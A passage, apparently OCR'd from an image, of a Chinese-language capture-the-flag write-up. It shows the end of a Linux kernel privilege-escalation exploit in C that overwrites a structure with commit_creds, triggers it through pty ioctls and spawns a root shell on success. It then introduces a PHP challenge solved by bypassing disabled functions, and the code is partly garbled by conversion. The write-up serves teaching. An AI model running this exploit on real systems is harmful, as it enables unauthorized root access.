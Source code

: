   *(uint64_t*)(buffer + 32) = commit_creds;

  *(uint64_t*)(buffer + 40) = new_value_at_48;

  *(uint64_t*)(buffer + 48) = old_value_at_48;

  write(fd, buffer, victim_idx);

​

  // Boom

  for (int i = 0; i &lt; MAX_PTY_SPRAY; i++) `{`

    ioctl(pty_masters[i], 233, 233);

  `}`

​

  printf(“[=] getuid() = %d\n”, getuid());

​

  if (getuid() == 0) `{`

    printf(“[+] Pwned!\n”);

    execlp(“/bin/sh”, “/bin/sh”, NULL);

  `}`

​

  while (1);

  return 0;

`}`

[1] sched_setaffinity(0, 1, &amp;cpu_mask) 绑核是为了增加占坑的稳定性，非必要。

**dhd**

一个 PHP 1day 题目， 预期解应该是使用这个漏洞 [https://bugs.php.net/bug.php?id=79818](https://bugs.php.net/bug.php?id=79818) ，但是这里我们使用了另外一个 1day， 通过绕过限制函数拿到了 flag。

&lt;?php

​

function substr($str, $start, $length)`{`

    $tmpstr=“”;

    for($i=0;$i&lt;$length;$i++)`{`

            $tmpstr.=$str[$start+$i];

    `}`

    return $tmpstr;

`}`
